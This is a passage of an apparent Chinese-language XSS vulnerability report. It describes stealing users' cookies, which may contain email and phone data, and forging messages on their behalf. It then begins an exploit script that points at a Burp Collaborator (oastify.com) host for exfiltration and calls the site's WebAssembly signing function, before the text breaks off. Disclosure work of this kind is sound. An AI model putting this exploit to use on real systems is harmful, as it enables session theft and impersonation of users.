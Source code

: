     ![consolelog2](./images/consolelog2.png)

7. 该XSS的利用

- 首先是窃取cookie，可能会带有邮箱和手机号信息
[cookie](./images/cookie.png)
- 伪造发送消息等
前面通过脚本发送合法请求，已经足够证明攻击者能伪造用户发送消息。只需要把该脚本上传到https服务器，并且通过xss payload下载恶意脚本，能够执行更加复杂的逻辑。

### 漏洞证明
请提供截图或视频
视频链接：链接：https://pan.baidu.com/s/1468B0QCK8zEIu7MtIVb4CQ 提取码：1314
完整利用脚本如下：

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'
        // init webassembly and get sig_gen function
        // 获取签名函数，该函数的实现为webassembly，但是全局模块sig暴露webassembly的接口，可以直接进行调用
        var moduleX;
        Promise.all([sig.default()]).then(function (t) {
            moduleX = t
        })
